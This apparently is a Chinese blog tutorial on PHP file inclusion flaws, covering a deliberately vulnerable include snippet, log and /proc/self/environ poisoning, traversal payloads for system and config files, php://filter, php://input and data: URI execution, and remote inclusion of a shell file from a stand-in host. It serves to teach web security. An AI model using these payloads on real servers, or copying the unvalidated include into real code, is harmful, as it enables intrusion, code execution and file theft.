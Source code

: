 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      php文件包含漏洞               # 标题 
subtitle:    #副标题
date:       2019-09-13              # 时间
author:     Von                      # 作者
header-img: img/post-bg-kuaidi.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - PHP

---
```


# 简介
在通过php的函数引入文件时，由于对传入的文件名没有进行有效的验证，进而导致了漏洞的产生。  
常见的文件包含函数有以下几个
``` php
include()   \\执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
require()  \\只要程序一运行就包含文件，找不到被包含文件时会产生致命错误，并停止脚本执行
include_once()  \\若文件中代码已被包含，则不会再次被包含
require_once()  \\若文件中代码已被包含，则不会再次被包含
```
当利用这四个函数来包含文件时，不管文件是什么类型（图片、txt等等），都会直接作为php文件进行解析。测试代码：
``` php
<?php
	$file = $_GET['file'];
	include $file;
?>
```
在同目录下有个1.txt，其内容为<? phpinfo(); ?>。则只需要访问：  
233.php?file=1.txt,即可访问到phpinfo界面。
![](/img/blog13-1.png)
而如果包含非PHP语法规范源文件时，将会暴露其源代码。
![](/img/blog13-2.png)
从上面这个例子我们可以看出,PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。

# 漏洞分类
## 本地文件包含(LFI)
### 包含日志
日志文件污染是通过将注入目标系统的代码写入到日志文件中。通常，访问目标系统上的某些对外开放的服务时，系统会自动将访问记录写入到日志文件中，利用这个机制，有可能会将代码写入到日志中。例如，当我们请求一个url地址时，便会记录在access.log中，但如果访问一个不存在的页面，便会将这个页面写入access.log中。如访问URL:www.xxx.com<?phpinfo();?>则会将一句话写入到access.log中，但是一般来说，写入到access.log文件中的一句话是被编码的，所以需要抓包绕过，而且利用此漏洞需要知道access.log的地址，不然便没有。

![](/img/blog13-3.png)
正常的php代码已经写入了 /var/log/apache2/access.log。然后进行包含即可。
![](/img/blog13-4.png)

**注意**
(1)除了我们包含 access.log 以外，我们还可以制造错误，然后包含 error.log
(2)如果出现包含不成功的情况，很有可能就是被 open_base_dir() 限制了
(3)实战中最好在凌晨的时候进行包含，要不然日志太大包含会失败
(4)除了 apache 和 nginx 的日志 还有很多其他的日志我们能利用，比如说 ssh 的日志

常见的路径还有以下这些:
```
?file=.htaccess    //包含同目录下的文件
?file=../../../../../../../../../var/lib/locate.db
?file=../../../../../../../../../var/lib/mlocate/mlocate.db    //linux中这两个文件储存着所有文件的路径，需要root权限
?file=../../../../../../../../../var/log/apache/error.log    //包含错误日志
?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf    //获取web目录或者其他配置文件
?file=../attachment/media/xxx.file    //包含上传的附件
```

### 包含environ
利用条件:  
``` 
php以cgi方式运行，这样environ才会保持UA头。
environ文件存储位置已知，且environ文件可读
```
Apache在/proc/self/environ（环境变量）中存储各种值，例如访问者IP地址，用户代理，调用的脚本以及其他值。然后和包含日志一样,在User-agent修改成payload.

## php伪协议
### php://filter
通常情况下，当我们去包含php源码的时候，源码会被解析，我们就看不到源码了，这时候就可以利用读文件的方式读取到php源码。
常用句式：?file=php://filter/read=convert.base64-encode/resource=xxx.php,也可以用index.php?file=php://filter/convert.base64-encode/resource=index.php，效果和前面一样，只是没有read关键字，在绕过一些waf或许有用。
注意:  
php://filter在双off的情况下也可以正常使用；  
allow_url_fopen ：off/on  
alow_url_include：off/on

### php://input
可以访问原始数据的只读流(这个原始数据指的是POST数据)，将post请求中的数据作为php代码执行。  
利用条件:allow_url_include = On  
```
index.php
?file=php://input
POST:
<? phpinfo();?>
```
![](/img/blog13-5.png)

### data:URI schema
利用条件:
```
php版本大于等于php5.2
allow_url_fopen = On
allow_url_include = On
```
主要有以下两种利用方法:
```
index.php?file=data:text/plain,<?php phpinfo();?>
```
![](/img/blog13-6.png)
```
index.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```
加号+的url编码为%2b，PD9waHAgcGhwaW5mbygpOz8+的base64解码为：<?php phpinfo();?>

## 远程文件包含(RFI)
需要allow_url_fopen=On并且allow_url_include=On才能进行远程文件包含。
常见利用方法:  
```
?file=[http|https|ftp]://example.com/shell.txt
```

# 写在最后
写到这里实在是太困了，而且这几天状态也不是很好，很多东西还没有讲。唉，有机会下次补齐吧(咕咕咕)

# 参考文章
[天师的文章](https://www.k0rz3n.com/2018/11/20/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8B%20PHP%20%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/#1-php-input)  
[琪琪师傅的文章](http://codeqi.top/2018/03/14/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)  
[panda1g1师傅的文章](https://panda1g1.github.io/%2F2018%2F05%2F26%2F%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%2F#%E8%BF%9C%E7%A8%8B%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%EF%BC%9A)  
[Chybeta师傅的文章](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)














